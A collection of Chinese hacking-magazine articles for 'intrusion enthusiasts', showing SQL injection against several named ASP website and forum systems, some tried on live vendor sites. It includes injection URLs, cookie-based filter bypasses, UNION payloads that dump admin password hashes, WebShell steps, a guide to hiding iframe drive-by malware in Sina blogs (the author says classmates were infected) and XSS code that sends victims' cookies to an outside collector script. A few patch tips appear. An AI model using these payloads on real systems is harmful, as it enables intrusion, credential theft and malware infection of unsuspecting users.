> len函数是用来返回字段长度的，left函数是返回字符串中左起指定长度的字符，比如left("abcdef",2)则返回"ab"。我们可以用它来测试管理员用户名对应的每一个字符。

一般这个过程都比较漫长，我们可以自己写段程序来完成这个过程，因为篇幅有限，我就不具体说明怎么写了。

> 在ASP程序里，我们可以用XML中的XMLHTTP组件来调用网页分析的返回结果，通过对比，就可以获得相应的字符。

密码的猜解也极其简单，无非就是漫长枯燥地一个一个去试，还是写个通用的工具方便啊！但是目前的NBSI、啊D注入等工具都无法对这个注入点进行猜解，不知道是我用工具不到家还是其它原因，暂且不讨论它，继续我们的手工注入。

```text
http://localhost/1/UserEdit.asp?username=admin' and exists(select id from Admin where left(Password,1)='3') and ' ' = '
```

和用户名的猜解一样，用同样的方法我们可以顺利得到MD5加密后的密码，之后通过一些在线MD5网页来查询或者暴力破解密码即可。一般来说，MD5密码对我们来说没有多大意义，但这对于我们说明问题已经足够了。

下面是我对官方的演示站进行的测试，结果如图3所示。

```text
http://www.southidc.net/0791idc10/useredit.asp?username=admin'%20and%20exists%20(select%20Password%20from%20Admin)%20where%20left(password,16)='3acdbb255b45d296')%20and%20'='
```

图3

顺利拿到后台的用户名和密码后，正准备兴冲冲地去后台逛一逛，结果发现演示站并未上传后台，不禁失望之极。接下来我们再看看 `NewsType.asp` 文件的部分源代码。

```asp
BigClass=request("BigClass")
SmallClass=request("SmallClass")

sql="select * from News where BigClassName='" & BigClass & "' and SmallClassName='" & SmallClass & "' order by AddDate desc"
set rs=conn.execute(sql)
```

同样，`BigClass` 和 `SmallClass` 也未进行任何过滤，我们可以用以下方式来注入。

```text
http://localhost/.../newstype.asp?BigClass=企业新闻'%20and%20'1'='1
```

继续分析，可以发现 `add.asp`、`CompHonorBig.asp` 等文件均存在 SQL 注入漏洞。后来又发现有些页面虽然也没有过滤，但却不能进行注入，原因是加了通用防注入程序。由于这套程序的后台提供了数据库备份功能，所以可以通过备份方法来获取 WebShell，后果极其严重。

到此为止，对此套程序的漏洞分析和测试基本就完毕了。开源软件确实给开发人员提供了不少方便，但对使用者来说也意味着不少风险，所以在使用开源软件时，一定要注意程序的完整性、安全性和及时关注官方补丁。

使用开源类软件时要注意：

- 不要修改数据库名称；
- 不要删除或改名后台数据库备份程序；
- 尽快修改默认管理员用户名和密码；
- 建议加强密码加密方式（如避免弱 MD5 方案）。

开源软件虽有很多好处，但也有很多弱点；如果想获得更好的服务和稳定性，购买商业版更合适。对于恶意利用和修改开源软件、损害他人利益的行为，作者表示强烈反感。

一套完整程序需要长期测试、完善和修补才能发布。虽然程序不可能 100% 安全，但应尽最大可能杜绝漏洞。下面说明南方企业网站管理系统 `UserEdit.asp` 漏洞的修补方式。

建议直接删除 `UserName=trim(request("UserName"))`，或者在其后增加如下过滤代码。

```asp
UserName=Replace(UserName,"'","")
UserName=Replace(UserName,"%","")
UserName=Replace(UserName,";","")
UserName=Replace(UserName," or ","")
UserName=Replace(UserName,"select","")
```

不过作者认为更好的修补方式是取消前端 `Request` 取值，改用 `Session` 赋值，代码如下。

```asp
dim Action,UserName,FoundErr,ErrMsg
...
Action=trim(request("Action"))
UserName=session("UserName")
if UserName="" then
...
```

其它存在漏洞的文件过滤方式类似，不过逐个修改较麻烦，且难以确认哪些页面仍有漏洞。建议在 `inc/conn.asp` 中加入通用防注入程序。


适合读者：入侵爱好者  
前置知识：无

#### 巧妙绕过 SQL 通用防注入系统，轻松入侵中网景论坛

文 / 图 iamgood

有人说 2006 年是注入年，随着 2007 年的到来，注入的时代将慢慢远去；但我们仍看到许多系统漏洞都因注入而导致严重问题。最近又出现了 BLOG 的注入漏洞，由此看来注入并没有离去，只是随着“SQL 通用防注入”等程序的出现，工具软件注入的时代开始远去。

该程序做了防护后，再也不可能出现简单的注入漏洞了，这时候，检测注入漏洞就得需要我们手工来进行了。这次我检测的是中网景论坛最新版——中网景论坛（CNKBBS）2007 v5.0，其简单介绍如下：2007 版已经是商业版级的软件，和国内同类商业论坛一样拥有强大的功能，具有监视（黑客）恶意操作功能（怕怕）。

```asp
<!--#include file="fzr.asp"-->
Dim Fy_Post,Fy_Get,Fy_In,Fy_Inf,Fy_Xh,Fy_dbstr
Dim fs0,allstr,re2,id,files,file2,fs1,zruserip
If Request.QueryString<>"" Then
  ' 自定义需要过滤的字符串
  Fy_In="'|;|%|*|and|exec|insert|select|delete|update|count|chr|mid|master|truncate|char|declare|script"
  Fy_Inf=split(Fy_In,"|")
  For Each Fy_Get In Request.QueryString
    For Fy_Xh=0 To Ubound(Fy_Inf)
      If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then
        zruserip=Request.ServerVariables("HTTP_X_FORWARDED_FOR")
        If zruserip="" Then zruserip=Request.ServerVariables("REMOTE_ADDR")
        Response.Write "内容含有非法字符，请不要有'或and或or等字符，请去掉这些字符再发！<br>"
        Response.Write "如果要攻击网站，系统记录了你的操作!<br>"
        Response.Write "操作IP："&zruserip&"<br>"
        Response.Write "操作时间："&Now&"<br>"
        Response.Write "操作页面："&Request.ServerVariables("URL")&"<br>"
        Response.Write "提交方式：GET<br>"
        Response.Write "提交参数："&Fy_Get&"<br>"
        Response.Write "提交数据："&Request.QueryString(Fy_Get)
      End If
    Next
  Next
End If
```

### 踩点

为了测试，我在本机架设了一个中网景论坛程序，并添加了几个版块和子版块。打开中网景论坛，界面、功能还算美观和完善。随便打开一个版块，并在“subid=1”后加一个单引号，出现了如图 1 所示的情况。


图1

看见这个界面，我想大家一定很熟悉，这就是 SQL 通用防注入系统。它是将过滤的代码加在连接数据库的文件中的。又试了几处，均被拦截。

### 实战

看来要想成功入侵，还是得阅读一下它的源程序了。在 `user_RxMsg_detail.asp` 文件中，发现有如下代码。

```asp
id=request("id")
if id<>"" then Call IsNum(bid)
conn.execute("update cnk_Users_RxMsg set readed=1 where id='"&id)
rs.open "select * from cnk_users_RxMsg where id='"&id,conn,1,3
```

`user_RxMsg_detail.asp` 文件是用来查看接收到的信息的，新注册的用户第一次进论坛时，都会收到一个“欢迎您的加入”的信息，如图 2 所示。


图2

不知道是不是程序员笔误，将“Call IsNum(id)”写成了“Call IsNum(bid)”，导致 ID 没有过滤就被带到了数据库中进行查询。但我们输入“id=1 and 1=1”时，图 2 的情况又出现了，原来在用于连接数据库的 `opendb.asp` 文件中有这样一行代码导致的。

从代码来看，它是 SQL 通用防注入系统的一个简单变型而已。不过总算是找到了阻止我们注入的“元凶”了。代码实现了对 `Request.QueryString` 来的数据进行检查，如果含有非法字符就给出提示，但程序只对 `Request.QueryString` 进行了检查，而 `user_RxMsg_detail.asp` 中获取 ID 方式却是 `Request(id)`。学过 ASP 的朋友都知道，Request 获取数据的方式有 `Request.QueryString`、`Request.Form` 和 `Request.Cookie`，如果只简单地写 `Request(id)`，那么默认是用 `Request.QueryString`、`Request.Form` 和 `Request.Cookie` 三种中的任意一种来获取数据。

所以我们要绕过 SQL 防注入系统，只需使用 `Request.Cookie` 来提交 ID 的值就可以了。我采用的提交代码为 `javascript:alert(document.cookie="id="+escape("1 and 1=1"))`，其中的 `escape` 是对空格等进行编码转换。

注册一个新用户，打开一条接收到的短信，输入 `javascript:alert(document.cookie="id="+escape("1 and 1=1"))`，提交后，再次输入 `http://localhost/bbs/user_RxMsg_detail.asp?username=论坛管理员`，没有再出现图 2 的情况，页面显示正常了。如图 3 所示，这说明我们成功地绕过了 SQL 通用防注入程序的检查了。

再接再厉，输入 `javascript:alert(document.cookie="id="+escape("1 and 1=2"))`，然后再输入 `http://localhost/bbs/user_RxMsg_detail.asp?username=论坛管理员`，结果如图 4 所示，时间和内容都没有显示，这说明我们可以注入了。大家可以一个一个数据表地去猜解，但我比较懒，我就直接用 Union 来获取管理员账号和密码了。`user_RxMsg_detail.asp` 文件中的 SQL 语句是“select * from cnk_users_RxMsg where id='&id'”，`cnk_users_RxMsg` 表中总共有 8 个字段，也就是说，它总共 select 了 8 个字段，由于使用 Union 时需要前后字段一致，所以 Union 后面的 select 语句可以这样写：“select 1,2,3,4,5,6,7,8 from Cnk_Admin”。


图3


图4

打开数据库，发现 `Cnk_Admin` 是存放管理员账号和密码的表，其中 `AdminName` 和 `AdminPassword` 分别是存放账号和密码的字段。清楚了这些，现在我们就可以来获取管理员账号和密码了。

```javascript
javascript:alert(document.cookie="id="+escape("1 and 1=2 union select 1,2,3,4,5,6,7,8 from Cnk_Admin"));
```

提交后结果如图 5 所示。


图5

接着将地址栏中的字符清空，输入 `http://localhost/bbs/user_RxMsg_detail.asp?username=论坛管理员`，结果如图 6 所示，可以看到显示出了 4 和 5。我们将提交的 select 语句中的 4 和 5 换成 `AdminName` 和 `AdminPassword`，意思是让 `AdminName`、`AdminPassword` 的值在 4 和 5 这两个地方显示。

```javascript
javascript:alert(document.cookie="id="+escape("1 and 1=2 union select 1,2,3,adminname,adminpassword,6,7,8 from Cnk_Admin"));
```


图6

提交完成后，结果如图 7 所示。


图7

再次将地址栏中的字符清除，输入 `http://localhost/bbs/user_RxMsg_detail.asp?username=论坛管理员`，结果如图 8 所示。


图8

通过 Union 查询，我们轻松地得到了管理员账号“admin”和管理员密码“7a57a5a743894a0e”，这是经过 MD5 加密的密码，可以到 http://www.cmd5.com 进行查询，经查询后密码为“admin”。账号密码到手，进后台管理，搞到 WebShell 应该就不是什么难事了，大家可以根据论坛的实际设置，自由发挥。

##### 总结

看过以上的入侵过程，如果你也在用 SQL 通用防注入系统来阻挡 SQL 注入的话，是不是感到心里有点凉凉的？的确如此，程序员在写程序的时候，千万不能将注入防线全部都交给 SQL 通用防注入系统，如果一旦它被突破，那后果不堪设想，所以在写每一行代码时，都应严谨仔细，ID 与 BID 虽仅一字之差，却给注入留下了可乘之机。

另外，`user_TxMsg_detail.asp` 文件也存在着相同的问题，也是将“Call IsNum(id)”写成了“Call IsNum(bid)”，导致出现注入隐患。一个程序大可不必去做什么“监视（黑客）恶意操作”等功能，如果有时间做这种功能，还不如将这些时间花在写出严谨的代码上。我们在猜解账号密码时，如果需要多次手工提交才能猜解出来的话，不如试试 Union 语句，尤其是像上述类型的注入，它需要两次手动操作才能完成一次猜解。

适合读者：入侵爱好者  
前置知识：无

#### 注入网上购物商城网站管理系统

文／图 武汉大学信息安全 珞珈凤凰

网上购物商城网站管理系统是目前网上较为流行的一个购物管理系统，使用用户数量很多，网站的访问量就更不用说了。所谓“树大招风”，今天我就特地对该系统检测了一次。

首先下载了一份该系统的测试版代码在本地上测试。在看代码前，我先大致浏览了一下网站的结构，随手在一个链接上输入一个单引号，出现了防注入提示，如图 1 所示。于是我直接进入了防注入文件 `config.asp`，查看代码，其中第 7～49 行代码如下。

```vb
Function HTMLEncode(fString)
fString=replace(fString,"'","&#39;")
fString=replace(fString,"<","&lt;")
fString=replace(fString,">","&gt;")
fString=replace(fString,"\","&#92;")
...
HTMLEncode=fString
End Function
```


从上面的代码我们可以看出，该系统的防注入代码基本没有什么漏洞，不但过滤了大多数的特殊字符，而且限制提交数据类型必须是数字型，难道注入的这条路走不通了？

```vb
UserAgent = Trim(Lcase(Request.Servervariables("HTTP_USER_AGENT")))
If inStr(UserAgent,"teleport")>0 or inStr(UserAgent,"webzip")>0 ... Then
  Response.Write "请不要采用 teleport/Webzip/Flashget/Offline 等工具来浏览商城"
  Response.End
End If

Function SafeRequest(ParaName,ParaType)
  Dim ParaValue
  ParaValue=Request(ParaName)
  If ParaType=1 then
    If not isNumeric(ParaValue) then
      Response.write "参数必须为数字型"
      Response.end
    End If
  Else
    ParaValue=replace(ParaValue,"'","")
  End If
  SafeRequest=ParaValue
End function
```

其实不然，在对所有代码反复阅读后，我发现所有的文件基本都包含了 `config.asp`，不再特地对某个文件中的变量做过滤（除了用户登录、后台管理登录文件），所以只要能绕过该防注入代码，就可能注入成功。在 `profile.asp`（该文件主要是实现个人账户的管理）文件中包含了 `disuser.asp` 文件，其中 `disuser.asp` 第 398～444 行的代码如下。

```vb
sub repass()  '// 取回答名
  dim shop
  shop=SafeRequest("shop",1)
  select case shop
  case ""
    response.Write "<form name=shop0 method=post action=profile.asp?action=repass&shop=1>..."
    response.Write "请输入您的用户名"
    response.Write "<input type=submit name=Submit value=确定 onclick='return check()'>"
  ...
  end select
end sub
```

```asp
case:
  set rs=server.CreateObject("adodb.recordset")
  rs.open "select UserQuestion,UserAnswer from [user] where username='"&trim(request.form("username"))&"'",conn,1,1
  '变量username直接进入SQL语句，没有过滤
  if rs.eof and rs.bof then
    response.write "<center><br>查无此用户，请返回"
  else
    response.Write "<br><table width=96% border=0 align=center cellpadding=1 cellspacing=1 bgcolor=#FFFFFF>"
```

由于在取回密码处提交变量username与用户登录和后台登录提交的变量方式是一样的，都是通过 `Request.Form` 的方式来提交的，而防注入代码并没有对这种提交方式做过滤。更可喜的是，在取回密码处提交构造的SQL语句，如果执行成功，会返回进行下一步的操作页面；如果执行失败，则会返回空白的错误页面，这样就给注入带来了极大的便利。

知道了原理，接下来就是进行手工注入了。在 `http://127.0.0.1/profile.asp?action=repass` 的“请输入您的用户名”输入框中输入 `' or 'a'='a`（不含双引号），返回页面正常，如图2所示。若输入 `' or 'a'='b`，返回页面就是错误的，如图3所示。


根据返回页面，我们可以判断注入是否成功。在输入框中继续输入：

```sql
' or exists(select * from admin) and 'a'='a
```

返回页面成功，说明存在名为admin的表名。再返回到上一页，输入：

```sql
' or exists(select admin from admin) and 'a'='a
```

返回成功，说明存在列名为admin的列。再返回到上一页，输入：

```sql
' or exists(select * from admin where asc(mid(UserPassword,1,1)) between 47 and 57) and 'a'='a
```

猜测密码的第一位，如果返回失败，再输入：

```sql
' or exists(select * from admin where asc(mid(UserPassword,1,1)) between 97 and 102) and 'a'='a
```

如果返回页面成功，就利用二分法，继续输入：  
`' or exists(select * from admin where asc(mid(UserPassword,1,1)) between 47 and 52) and 'a'='a`，如果返回页面失败，则说明第一位密码的ASCII码在52~57之间，然后再取52~54之间，一半一半地缩小，直到最后猜解出第一位密码的ASCII码。

猜解完第一位密码后，输入 `' or exists(select * from admin where asc(mid(UserPassword,2,1)) between 47 and 57) and 'a'='a`，用同样的方法猜解第2位密码，直到16位密码的ASCII码全部猜解成功。再将ASCII码转换成原文，再对所得MD5密码破解，最终得到密码。

> 小经验：为什么不猜测用户名以及密码长度？因为密码都是经过MD5加密过的，都是16位，而用户名可以在网站的最新新闻发布栏中找到。


得到后台登录的用户名和密码后，拿WebShell就轻而易举了。在后台上传一个文件后缀为JPG的ASP木马文件，然后用数据库备份功能备份成ASP文件。最后我对官网进行了测试，测试结果如图5所示。


可见该漏洞在官网上也是存在的，我成功注入出了后台的密码，密码为asdfgh。不过管理员修改过后台登录页面地址，导致无法继续入侵。目前官网还没有推出任何补丁，还在使用该系统的网站管理员应及时修改网站后台登录地址，或者及时补上该漏洞。具体修补该漏洞的方法如下。

```asp
rs.open "select UserQuestion,UserAnswer from [user] where username='"&trim(request.form("username"))&"'",conn,1,1
```

改为：

```asp
username=trim(request.form("username"))
username=replace(username,"'","''")
rs.open "select UserQuestion,UserAnswer from [user] where username='"&username&"'",conn,1,1
```

适合读者：入侵爱好者

前置知识：Java

#### 利用 JavaScript 进行注入

文 / kostis009gr  译 / 噬魂[S.S.T]


利用 JavaScript 进行注入，我们不用关闭网站或者把页面保存在本地电脑上就可以改变网站中的内容，而这一切都是由浏览器的地址栏来完成的。

利用 JavaScript 注入的命令一般为 `javascript:alert(#command#)`。

比如我们想看到在网站 `http://www.example.com` 里面的一个警告框，那么首先在地址栏输入URL（www.example.com），当页面加载完之后，清空URL并输入 `javascript:alert("Hello World")` 作为一个新的URL，这样将会弹出一个警告框显示“Hello World”。

目前，很多人会用这个技巧来改变页面内的几乎任何内容，例如一张图片。假设现在有一个网站的 Logo 图片，通过查看页面源代码，我们发现一段HTML：

```html

```

得到信息：有一个图片被命名为 hi，源文件为 hello.gif。我们想要改为 bye.jpeg 并存储到 `http://www.mysite.com` 上，所以图片完整URL是 `http://www.mysite.com/bye.jpeg`，只需在地址栏输入：

javascript:alert(document.hi.src='http://www.mysite.com/bye.jpeg')

```javascript
```

此时会看到提示框显示该地址，之后图片将会被改变。注意这些变化是暂时的，刷新页面或再次进入后会丢失，因为改变的不是服务器站点，而是本地浏览器中的显示。

使用同样的方法，我们也可以查看或改变变量的值。比如在网站中找到以下源码：

```html
<SCRIPT LANGUAGE="JavaScript">
  var a="test"
</SCRIPT>
```

这段代码表示给变量 a 赋值为 test。为了查看变量值，输入：

```javascript
javascript:alert(a)
```

然后为了把它从 test 改为 hello，则输入相应赋值语句。

```javascript
javascript:alert(a='hello')
```

不过，目前 JavaScript 注入主要是用来改变表单的属性。假设下面是我们已有的部分代码：

```html
<form name="format" action="send.php" method="post">
  <input type="hidden" name="mail" value="someone@somewhere.com">
  <input type="text" name="name">
  <input type="submit" value="submit">
</form>
```

我们想要将表单发送到我们的邮箱中，而不是代码中的邮箱 `someone@somewhere.com`。要完成这个操作，可以输入如下命令：

```javascript
javascript:alert(document.format.mail.value='me@hacker.com')
```

从上面的例子可以看出来，进行 JavaScript 注入的一般过程是：

- 从 `document` 入手；
- 输入我们想要改变的对象名（如 `document.hi.src` 或其属性，如 `document.format.mail.value`）；
- 找到要改变的特征（如源路径、变量值）；
- 用 `.` 号分隔单词；
- 用 `=` 号和新的特征值完成赋值。

注意，当新的特征值为字符串时需要使用双引号（如 `document.format.mail.value="me@hacker.com"`）；如果是变量值则不需要双引号（如 `javascript:alert(a=b)`）。但是大多数页面中的属性都没有名字，例如：

```html
<form action="send.php" method="post">
  <input type="hidden" name="mail" value="someone@somewhere.com">
  <input type="text" name="name">
  <input type="submit" value="submit">
</form>
```

在这些代码中，表单没有名字，而要利用上面的所有信息，则可以输入如下命令：

```javascript
javascript:alert(document.mail.value='me@hacker.com')
```

在这种情况下，我们将不得不计算所有的表单来找到这个表单的序号。下面我们用一个例子来详细讲解一下。

```html
<form action="send.php" method="post">
  <input type="text" name="name">
  <input type="submit" value="submit">
</form>
<form action="send.php" method="post">
  <input type="hidden" name="mail" value="someone@somewhere.com">
  <input type="text" name="name">
  <input type="submit" value="submit">
</form>
<form action="send.php" method="post">
  <input type="text" name="name">
  <input type="submit" value="submit">
</form>
```

在以上代码中，一共有三个表单，但我们现在只对第二个感兴趣，因此我们想要的表单序号就是2。这里要注意一下，按照习惯我们是从1开始计算的，但在JavaScript中却是从0开始计算，所以真正的表单序号是1，而不是2。也就是说，我们要先找到表单序号再减1。因此，我们就可以用这个序号来补全上面的命令。

```javascript
javascript:alert(document.forms[1].mail.value='me@hacker.com')
```

像这样，我们就能改变没有名字的图片或者链接了。

- 对于图片：`javascript:alert(document.images[3].src="#你想改变的目标图片URL#")`
- 对于链接：`javascript:alert(document.links[0].href="http://www.undug.net/#你想改变的目标链接#")`

同时，我们还可以用下面这个技巧来编辑Cookies。

```javascript
javascript:alert(window.c=function(n,v,nv){
  c=document.cookie;
  c=c.substring(c.indexOf(n)+n.length,c.length);
  c=c.substring(1,((c.indexOf(';')!=-1)?c.indexOf(';'):c.length));
  nc=unescape(c).replace(v,nv);
  document.cookie=n+'='+escape(nc);
  return unescape(document.cookie);
});
alert('The cookie is:'+document.cookie+'!');
alert(c(prompt('The name of the cookie!',''),prompt('change this value:',''),prompt('with this:','')));
```

最后，我必须强调一点，就是我们所做的改变仅仅是在用户端。尽管如此，使用这个技巧，我们仍然可以欺骗一个页面（例如Cookies）或者通过一个页面的安全验证……如果我们打算登录一个页面中自己的JavaScript代码，通过使用一些像这样的技巧，将能够轻而易举地改变类似不变的图片！

适合读者：木马爱好者

前置知识：无

## 新浪也挂马

## 手把手教你新浪博客挂马

文／图 ramble


大家好，我是ramble，偶然发现了新浪的一个安全问题，也许新浪不认为是漏洞吧，不过如果被有心人利用，危害可不小啊！故写了本文，望大家警惕！

近日，本人一直在学ASP教程，一边学一边作笔记，在新浪上申请的博客已经很久没更新了，不知道写什么好，于是就决定把学习笔记发到博客上去……

去后台一看，用的就是HTML，于是我就想了，HTML可以直接用，挂马不就方便了吗？不过不知道有没有过滤 `<IFRAME>`，当然，试验结果让我十分振奋，居然可以！

`<IFRAME>` 标签的作用是在当前页面中插入另一个页面，其格式是：`<iframe width=1 height=1 src="URL"></iframe>`。width定义被插入页面宽，height定义被插入页面高，src指定被插入页面的URL地址……

写 `<iframe width=300 height=300 src="http://www.baidu.com"></iframe>`，呵呵，大家马上就可以看到效果啦！

好了，我们开工。首先祝贺一下有新浪博客的朋友，你可以利用这个机会大赚一笔了。如果你博客访问量大的话，那肉鸡可就……哈哈！不废话了，大家来看新浪博客的页面，如图1所示。我们要选一个挂马方便的地方，不容易被人发现且会被人访问到，这里就选公告栏了。我们进入后台看看，点“控制面板->自定义设置->首页内容维护”，如图2所示。


图1


图2

大家看到了吗？自定义公告栏那里，点“进入编辑”，打开一个公告栏编辑页面，如图3所示。在这里可以看到你已经有的公告栏，如果还没有，赶快点新增吧。


图3


图4

有的话就点公告栏的名字，进入编辑页面，如图4所示。大家注意看图4中圈住的地方，给显示源代码打上对号就可以在这里编辑HTML代码了。我们在公告的最后加上代码：

```html
<iframe src="http://www.baidu.com" width=300 height=300></iframe>
```


图5

为了看到效果，我们取消显示源代码的对号，预览一下，如图5所示。看到了吧，百度跑到编辑框里了！有希望啊！我们点保存，再看一下是不是可以在首页正常显示。回到首页，可以看到正常显示了，如图6所示。


图6

现在我们已经可以在公告栏看到百度的首页了，说明这个方法还是行得通的。怎么利用这个挂马了吧？做一个网页木马放在自己的空间上（没有？去网上找吧！），然后记下地址，把刚才的代码改成 `<iframe src="网马地址" width=0 height=0></iframe>`。这样就OK了，虽然插入了一个网马，但是宽和高都是0，实际上是不会页面上显示出来的。

我在自己的博客上试了一下，确实看不出来，而且挂马正常，因为我的同学中招了，哈哈。对于没有网马的小菜们，我随本文附带了最新的MS07-004网马生成器，大家也可以去黑防的网站上自己下载，这样就可以自己做网马了，至于免杀就各有各的方法了，本文就不再详述了。

适合读者：入侵爱好者

前置知识：ASP

#### 渗透攻击之脚本篇

文/图 欧阳无极@NUDT安全应急小组

近年来，攻防技术飞速发展，系统的安全防御体系日益全面，网络渗透技术也在接受更多的挑战。从几年前的 SQL injection 技术的提出到现在的 XSS 攻击，脚本渗透技术逐渐发展成熟。今天就让我们领略一下飘逸的渗透手法——脚本攻击。

脚本攻击（Scripting Attacking）是建在 B/S 模式上的一种特殊的攻击手段，它并不拘泥于语言和平台，有强大的灵活性，并且能根据不同的语言和平台表现出特异的形式。下面我们对这类攻击的原理深入讨论一下，由于本人水平有限，望各位指正共勉。

### 基于ASP语言的SQL注入攻击

现在看来，SQL 注入攻击技术已经发展得非常成熟，甚至可以说是一种“古老”的技术，注入的技巧很多，无法一一重复，我们只对 SQL 注入原理进行一些探讨。

SQL 注入漏洞是如何产生的呢？相信大家都玩过填字游戏，例如“我想找一个叫XX的人”，以上的例子中我们会填写某个特定人的具体姓名来完成整个查找命令。转换到 SQL 注入攻击的角度，若我们填上“李甲或密码是123”的话，放入全句将是不同的意思，也就是说李甲这个人是故意伪造而且数据库中并无此人的情况下，我们将得到密码是123的人的返回结果。不知道大家看明白了没，其实就是一种文字游戏的另类玩法。具体的技巧大家可以看看以前的杂志，我们再来看看 SQL 注入需要的条件。

有个叫 Gates 的人曾说过“用户的所有输入都是有害的”。SQL 注入的首要条件便是用户输入，静态的 HTML 不存在 SQL 注入的可能，因为缺少用户输入便无法构成有效的切入点，那么什么才是用户的输入点呢？简单地说就是用户提交的参数，而且是能够放到数据库查询的参数才可能实现 SQL 注入。

大家都晓得像“xx.asp?id=24”中的 id 就是一个参数，在 xx.asp 中一般是能通过 `request("id")` 来提取 id 的值，当然这跟语言平台有关。也就是说，我们笼统地将用户提交的 request 中的参数作为一个空缺来填写，也就是我们构造的有害字符。

其实大家把思路打开，就会发现一个网站会有很多的输入点，肉眼可见的就包括搜索的关键字（即搜索型注入），现在较流行的 Cookie 注入也是利用了用户提交的 request(cookie) 来实现的。可以说，只要能提交的参数，都可能被利用来构造注入攻击语句。

那么如何寻找注入点呢？知道了产生的原理，最理想的方法便是分析 Web 程序源代码，通过对用户输入的变量进行跟踪，一般就能够摸清变量的传递去向。举个例子，我们用记事本打开一个 ASP 文件，找到数据库操作的语句：

```sql
sql="select * from NEWS where BigClassName='" & owen1 & "' order by id desc"
```

在上述语句中可以知道我们需要构造的变量是 owen1。知道了变量，我们用记事本的查找功能来追踪，如图1所示。这里要注意的是，查找的方向是向上，因为既然已经出现的变量，前面肯定已经声明过了；况且我们要检查的是该变量有没有被过滤，这样才能找到注入点。同样的，PHP 也可以用这种方法来分析。


图1

我们知道，并不是所有的站点都能拿到现成源代码来分析的，尤其是一些政府的、商业性质的代码，我们更多时候必须黑箱操作。至于黑箱操作，更多的时候是在前台投石问路，因为有许多地方经常被程序开发者所忽略。许多人往往会忽略一些“明显”的点，例如搜索框，后台的用户名注入甚至“找回密码”之类的功能都很可能是潜在的切入点。此外，当我们在一些页面查看源代码的时候，会看见这样的一些 input 标签：

```html
<input type="hidden" name="query" value="query">
```

上面的语句有一个 hidden 变量，这是个隐藏提交的变量，一般是预定了它的值（如 query），这同样也是可以用来被构造攻击语句的。不得不提的是，高手……和我这个菜鸟的区别在于孜孜不倦地追求到底，因为在追踪变量的过程中常常会碰到各种各样的处理函数，只有把函数也分析清楚才能提高我们的成功率。要想真正分析脚本，还真的需要耐性和分析思考。

在利用 SQL 注入的过程中，我们经常遇到的是 ASP+Access（MS SQL）或 PHP+MySQL 的组合。由于语言和数据库的平台不同，会有一定的差异性。例如 ASP 平台默认是不会把单引号做过滤处理的，而 .NET 和 PHP 对特殊字符则相当敏感（如 PHP 会将单引号替换成反斜杠）；又如 MS SQL 支持分号“;”实现多句查询，而 MySQL 则不支持。类似的区别在此不一一列举，这需要大家动手翻看一下各种数据库的参考手册了解其特性，但我也遇到过不少“交叉”组合的主机，如 ASP+MySQL 和 PHP+MS SQL，更多见于 Web 和 SQL 服务器的分离。根据各自的特性，这样的组合反而有可能增加服务器的安全风险，有兴趣的朋友不妨研究下。

#### 跨站脚本攻击（XSS）与欺骗攻击

什么是 XSS 攻击呢？同样地，XSS 也属于一种“填字游戏”，只是这类攻击是通过 HTML 框架来实现的，而不需要经过 SQL 查询，前提也是基于用户的输入来达到构造特殊字符来实现。以实例说明一下，在一个显示留言的 guest.asp 中有这样一段代码“`<%=content%>`”，在此 ASP 程序中，content 是用于显示内容的变量，放在 HTML 里面就成了“`<html>要显示的内容</html>`”，跨站就是在 content 上面做手脚。经典的比如“`<script>alert()</script>`”，在 HTML 中将执行我们构造的 Script 语句。一句话来说，原理很简单，就是因为 CGI 程序没有对用户提交的变量中的 HTML 代码进行过滤或转换。

以上是 XSS 产生的原理，前提便是用户输入不过滤直接嵌入 HTML 框架（XSS 同样包括刚才讲到的 hidden 形式）。因此，XSS 存在于任何基于 HTML 的动态网页平台上，没有语言的限制。那么 XSS 有哪些应用呢？我们来看看其在渗透方面的价值。

首先最常见的应用便是挂马，目前有不少网页木马生成器，我们只需要利用一个简单的跳转便可以实现，例如“`<script>window.open("http://www.test.org/mm.htm")</script>`”，其中的“`http://www.test.org/mm.htm`”便是我们精心构造的网页木马。上面的跳转方法只是采用了简单的 window.open 来实现，实际上我们可以用各种形式的 HTML 来实现（像 frame 框架），灵活性很强，这里就不浪费版面了。

其实仅仅是挂马杀伤力还不算大，若是用来欺骗管理员提升用户权限，便能进一步扩大战果。例如《黑防》2007 年第 1 期介绍的 fzblog 漏洞，其中一个就是 XSS 攻击，实质是利用 URL 跳转来提升权限，有兴趣的朋友可以翻看以前的杂志，这里不作重复劳动了。

此外，渗透中经常要用到 Cookie 欺骗手法，像以前的 LeadBBS 的 Cookie 欺骗漏洞，我们在接触 HTML 的时候，可以灵活运用 Script 语言构造更为精妙的语句来辅助渗透。以下是常见的盗取 Cookie 的手法。

```html
<script>window.open('http://www.test.com/cookie.php?'+document.cookie)</script>
```

其中，cookie.php 是自己空间上用来接收 Cookie 的一个程序，网上很多代码，都是大同小异的。

```php
<?php
$cookie = getenv("QUERY_STRING");
if ($cookie) {
  $fp = fopen($cookie, "a");
  fwrite($fp, $cookie."\n");
  fclose($fp);
}
header("location:http://www.trueurl.com");
// 重定向到主页
?>
```

通过上述方式，我们可以获得用户 Cookie 的内容。另外，利用上述原理我们还可以伪造页面 mm.html 为一个用户登录页面，钓鱼或者别的攻击，任由大家自由发挥就是了。

总结一下，XSS 攻击的危害以及利用不言而喻，只要是 HTML 和 JavaScript 能做到的，XSS 就能够实现。既然提到了 Cookie，下面我们就来讲一下欺骗攻击。

先说说比较常见的 Cookie 欺骗，简单用比喻来说，考试结束了，老师让学生改卷子（Cookie 的内容），学生改完再报给老师统计分数（网络验证过程），一般学生改了就交，而有的学生（非法用户）擅自提高自己的分数（Cookie 修改）后上交，构成了一次欺骗。这里要和 Session 欺骗区别开来：形象来讲，老师事先改好了的卷子发给同学，同学在底下再怎么改还是不会影响老师保存的那一份成绩档案（也就是存放在服务器端的 Session）。不知大家明白了原理没有，Cookie 欺骗的手法大家应该比较熟悉了，我们只探讨一下 Session 欺骗。以 eWebEditor 为例，存在漏洞的代码如下。

```asp
If Session("eWebEditor_User") = "" Then
  Response.Redirect "admin_login.asp"
  Response.End
End If
```

